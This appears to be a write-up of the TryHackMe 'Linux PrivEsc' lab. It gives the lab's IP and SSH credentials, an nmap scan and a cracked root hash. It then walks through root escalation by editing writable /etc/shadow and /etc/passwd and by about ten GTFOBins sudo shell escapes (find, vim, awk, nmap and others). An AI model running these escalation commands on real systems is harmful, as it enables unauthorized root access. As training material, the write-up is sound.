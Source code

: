  # TryHackMe
## Linux privEsc room 

### Target Ip Adresss
 
**10.10.104.17**


connect through it with ssh using 

``ssh user@10.10.104.17``

password: `password321`


```
user account: user@debian
id: uid=1000(user) gid=1000(user) groups=1000(user),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev)
```

nmap scan result 

```
hown: 993 closed ports
PORT     STATE    SERVICE VERSION
22/tcp   open     ssh     OpenSSH 5.5p1 Debian 6+squeeze5 (protocol 2.0)
| ssh-hostkey: 
|   1024 a4:6c:d1:c8:5b:03:f2:af:33:3f:84:15:cf:15:ed:ba (DSA)
|_  2048 08:84:3e:96:4d:9a:2f:a1:db:be:68:29:80:ab:f3:56 (RSA)
25/tcp   open     smtp    Exim smtpd 4.84
| smtp-commands: debian.localdomain Hello ip-10-8-166-103.eu-west-1.compute.internal [10.8.166.103], SIZE 52428800, 8BITMIME, PIPELINING, HELP, 
|_ Commands supported: AUTH HELO EHLO MAIL RCPT DATA NOOP QUIT RSET HELP 
80/tcp   open     http    Apache httpd 2.2.16 ((Debian))
|_http-server-header: Apache/2.2.16 (Debian)
|_http-title: Site doesn't have a title (text/html).
111/tcp  open     rpcbind 2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/udp   nfs
|   100005  1,2,3      58810/tcp   mountd
|   100005  1,2,3      59744/udp   mountd
|   100021  1,3,4      51633/tcp   nlockmgr
|   100021  1,3,4      56680/udp   nlockmgr
|   100024  1          50010/udp   status
|_  100024  1          60676/tcp   status
2049/tcp open     nfs     2-4 (RPC #100003)
5050/tcp filtered mmcc
8080/tcp open     http    nginx 1.6.2
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: nginx/1.6.2
|_http-title: Welcome to nginx on Debian!
```

### Weak File Permissions - Read/Writable /etc/shadow
 

As Shadow file is read and writeable so,
 
Using Shadow found root user password Hash

`$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0`

crack it using `john` with wordlist file `rockyou.txt`

so we found hash type is `sha512crypt`
and the password is "password123"

so we can login into root user with that password using command 
`su root`

As shadow file writable so we can generate new hash using command 
`mkpasswd -m sha-512 {newpasswordhere}`
after successfully generate hash place it to the hash place login with password that you use to generate hash 


### Weak File Permissions - Writable /etc/passwd


As passwd file is writable so we use this and generate password hash with the command 
`openssl passwd {NewPasswordHere}`

After the replace the password hash that you generated into "x" singn in passwd file 
Then you can login into root user with that password that you use to generate hash 
#### Allternative
Copy the root user line and append it with the end of the file and change root with newroot and replace the hash with "x" sign in passwd file 
Now to change the user into newroot with that password that you use to generate hash  


### Sudo - Shell Escape Sequences 


list programs which sudo allows your user to run using command 

`sudo -l`

In my target user they are 
```
User user may run the following commands on this host:
    (root) NOPASSWD: /usr/sbin/iftop
    (root) NOPASSWD: /usr/bin/find
    (root) NOPASSWD: /usr/bin/nano
    (root) NOPASSWD: /usr/bin/vim
    (root) NOPASSWD: /usr/bin/man
    (root) NOPASSWD: /usr/bin/awk
    (root) NOPASSWD: /usr/bin/less
    (root) NOPASSWD: /usr/bin/ftp
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/sbin/apache2
    (root) NOPASSWD: /bin/more
```

that command are allow to Target user

Using the link: https://gtfobins.github.io/  
GTFObins list if we found the command in that list that sudo allow on the user we can gain root shell with only Escape sequence mention in GTFObins list 

So now try gain root shell of all the command that sudo allow on my target user using GTFObins list 

1) iftop
Command: ```sudo iftop
!/bin/sh```

write that command and we foung root shell

2) find 
Command: `sudo find . -exec /bin/sh \; -quit`

write that command and we foung root shell

3) nano
To esclate the privilege using nano first use command "sudo nano"
After that when nano text editor is open press "ctrl+r" and after that press "ctrl+x" 
Then type `reset; sh 1>&0 2>&0` and press enter and you have root shell NOTE: type without double qotation marks (")

4) vim 
Command: `sudo vim -c ':!/bin/sh'`
Write that command and you gain root access
5)man 
Commands:
        ``` sudo man man
         !/bin/sh```
use this commands to gain root access

6) awk 

Command:` sudo awk 'BEGIN {system("/bin/sh")}'`

Write that command and you gain root access

7) less 
Commands: ```less /etc/profile
          !/bin/sh```

use this command to gain root access

8) ftp
Commands:
        ``` ftp
         !/bin/sh ```
use this command to gain root privilege

9) nmap
Commands: 
```sudo nmap --interactive
nmap> !sh
```
use this command to gain root access

10) more
Commands: 
        ``` TERM= sudo more /etc/profile
         !/bin/sh```
use this commands to gain root access

These are all the command that are allow target user account and with the help of GTFObins we successfully gain root access 

one command are allow on target user account but there exploit not found in GTFObins and they are 
 `apache2`

# TO Be Continued...
